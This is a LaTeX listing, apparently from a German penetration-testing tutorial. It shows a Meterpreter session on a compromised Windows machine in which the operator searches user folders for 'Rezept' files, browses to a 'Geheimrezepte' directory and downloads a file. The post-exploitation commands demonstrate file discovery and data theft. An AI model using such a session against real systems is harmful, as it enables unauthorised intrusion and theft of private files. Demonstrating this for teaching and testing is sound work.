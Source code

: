 \begin{lstlisting}[language=Metasploit]
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40555/r-xr-xr-x   0     dir   2012-06-27 12:15:35 +0200  .
40777/rwxrwxrwx   0     dir   2012-06-26 11:07:38 +0200  ..
100666/rw-rw-rw-  150   fil   2012-06-26 11:07:39 +0200  Desktop.ini
100666/rw-rw-rw-  408   fil   2012-06-26 11:13:40 +0200  Geheimrezepte.lnk
100666/rw-rw-rw-  511   fil   2012-06-26 12:21:09 +0200  Rezept1NR.lnk
100666/rw-rw-rw-  562   fil   2012-06-26 11:13:40 +0200  Rezept2NJ.lnk
100666/rw-rw-rw-  511   fil   2012-06-26 11:14:01 +0200  Testdatei.lnk
100666/rw-rw-rw-  392   fil   2012-06-27 12:15:35 +0200  WINDOWS.lnk
100666/rw-rw-rw-  529   fil   2012-06-27 12:15:34 +0200  netfxocm.lnk
100666/rw-rw-rw-  371   fil   2012-06-26 12:21:09 +0200  public.lnk

meterpreter > search Geheimrezepte

[-] You must specify a valid file glob to search for, e.g. >search -f *.doc

meterpreter > search -f Rezept*

Found 6 results...

    c:\\Dokumente und Einstellungen\Administrator\Recent\Rezept1NR.txt.lnk (552 bytes)
    c:\\Dokumente und Einstellungen\Marcel\Recent\Rezept1NR.txt.lnk (552 bytes)
    c:\\Dokumente und Einstellungen\User0815\Recent\Rezept1NR.lnk (511 bytes)
    c:\\Dokumente und Einstellungen\User0815\Recent\Rezept2NJ.lnk (562 bytes)
    c:\\Geheimrezepte\Rezept2NJ.txt (745 bytes)
    c:\\public\Rezept1NR.txt (801 bytes)

meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd Geheimrezepte
meterpreter > ls

Listing: C:\Geheimrezepte
=========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2012-06-17 22:48:54 +0200  .
40777/rwxrwxrwx   0     dir   1980-01-01 00:00:00 +0100  ..
100666/rw-rw-rw-  745   fil   2012-06-17 22:47:47 +0200  Rezept2NJ.txt

meterpreter > download Rezept2NJ.txt

[*] downloading: Rezept2NJ.txt -> Rezept2NJ.txt
[*] downloaded : Rezept2NJ.txt -> Rezept2NJ.txt

meterpreter > ;-)
\end{lstlisting}

